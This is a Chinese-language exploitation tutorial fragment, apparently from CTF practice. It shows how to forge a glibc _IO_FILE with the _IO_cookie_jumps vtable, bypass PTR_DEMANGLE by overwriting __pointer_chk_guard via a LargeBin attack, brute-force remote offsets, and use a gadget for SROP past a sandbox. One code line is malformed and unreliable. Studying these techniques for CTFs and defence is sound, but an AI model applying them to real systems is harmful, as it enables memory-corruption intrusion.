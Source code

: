```python
fake_IO_FILE += p64(libc_base+0x1e3660)  # _lock = writable address
fake_IO_FILE += p64(0)*7
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(io_cookie_jumps + 0x40)  # vtable
fake_IO_FILE += p64(heap_base+0x300)  # rdi
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(target^(heap_base+0xb30),0x11))
```

不过最终调用的函数指针会被PTR_DEMANGLE加密保护，绕过的方法就是利用LargeBin Attack等技巧直接覆盖ld中的密钥key的值为一个固定的堆地址

PTR_DEMANGLE具体的解密过程为：目标地址循环右移（ROR）11位，之后和ld中的__pointer_chk_guard 异或

所以我们的加密为先和__pointer_chk_guard 异或运算，再循环左移11位。

````python
def ROL(content, key):
    tmp = bin(content)[2:].rjust(64, '0')
    return int(tmp[key:] + tmp[:key], 2)

target = ROL(target^(heap_base+0xb30 = ),0x11)
# heap_base+0xb30 = __pointer_chk_guard 
````

而其中__pointer_chk_guard 的地址泄露可以利用gdb的字符串搜索寻找在anon段上的位置，他和libc的偏移一般固定，如果远程并不固定，也就是倒数第4位和第5位不同，我们可以选择爆破1/256来寻找,

> 也可以gdb查找符号 __pointer_chk_guard_local

主要的寻找原理是LargeBin Attack去覆盖，如果偏移不对则我们想修改的位置会不可写而报错

一般选用爆破出来的最高的地址

````python
for x in range(0x10):
    for y in range(0x10):
        try:
            libc_base = 0x1234
            offset = 0x6 << 20  # 倒数第6位
            offset += x << 16   # 倒数第5位
            offset += y << 12   # 倒数第4位
            target = libc_base + offset + low_3_bytes
            log.success("try offset:\t" + hex(offset + low_3_bytes))
            # your code
            p.interactive()
        except EOFError:
            p.close()
````

不过如果程序开启了沙盒没法直接运行system，可以考虑执行下面这个gadget来实现SROP：

````assembly
mov rdx, qword ptr [rdi + 8]; 
mov qword ptr [rsp], rax; 
call qword ptr [rdx + 0x20];
````
